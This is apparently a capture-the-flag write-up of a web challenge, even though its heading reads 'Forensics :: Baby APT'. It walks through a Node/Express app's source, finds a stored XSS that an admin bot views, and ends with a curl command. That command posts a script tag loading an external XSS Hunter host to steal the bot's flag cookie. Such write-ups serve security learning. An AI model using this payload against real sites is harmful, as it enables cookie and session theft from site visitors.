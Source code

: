 #Forensics :: Baby APT

###Challenge Files: [web_toy_workshop.zip](web_toy_workshop.zip)

For this challenge, there is a docker component that hosts the vulnerable website, but you are provided with the challenge files to develop an exploit.

At first glance, we can see that this is a Node app running Express, there are two routes that are valid, **/api/submit** and **/queries**, however the query page only allows connections from localhost.

```js
router.post('/api/submit', async (req, res) => {

		const { query } = req.body;
		if(query){
			return db.addQuery(query)
				.then(() => {
					bot.readQueries(db);
					res.send(response('Your message is delivered successfully!'));
				});
		}
		return res.status(403).send(response('Please write your query first!'));
});
```

Looking at the submit function, it appears to accept a json object via a POST request with a "query" parameter, which is then enters into the database. Then is calls the function ```bot.readQueries()```. Next we can look at the other function:

So let's go ahead and see what the bot does:

```js 
const cookies = [{
	'name': 'flag',
	'value': 'HTB{f4k3_fl4g_f0r_t3st1ng}'
}];


const readQueries = async (db) => {
		const browser = await puppeteer.launch(browser_options);
		let context = await browser.createIncognitoBrowserContext();
		let page = await context.newPage();
		await page.goto('http://127.0.0.1:1337/');
		await page.setCookie(...cookies);
		await page.goto('http://127.0.0.1:1337/queries', {
			waitUntil: 'networkidle2'
		});
		await browser.close();
		await db.migrate();
};
```

We can see after some other initial setup, the bot stores a flag value in a cookie and then when the readQueries function is called, it browses to the queries page. Next let's go there:

```js 
router.get('/queries', async (req, res, next) => {
	if(req.ip != '127.0.0.1') return res.redirect('/');

	return db.getQueries()
		.then(queries => {
			res.render('queries', { queries });
		})
		.catch(() => res.status(500).send(response('Something went wrong!')));
});
```

When the bot visits the page, all of the queries that were submitted are displayed on the page. So this is a pretty simple stored XSS vulnerability where we can get the bot to view a script that will give us the flag in the cookie.

I personally used XSS Hunter which is just a nice simple way to capture XSS triggers without having to spin up your own listeners, etc. The payload was sent with Curl like:

```curl -X POST http://138.68.182.5:30527/api/submit -H 'Content-Type: application/json' -d '{"query":"<script src=https://myusername.xss.ht></script>"}'```

After a few minutes, the bot visits the page and on the XSSHunter dashboard I can see a report of the trigger including cookie values:

```HTB{3v1l_3lv3s_4r3_r1s1ng_up!}```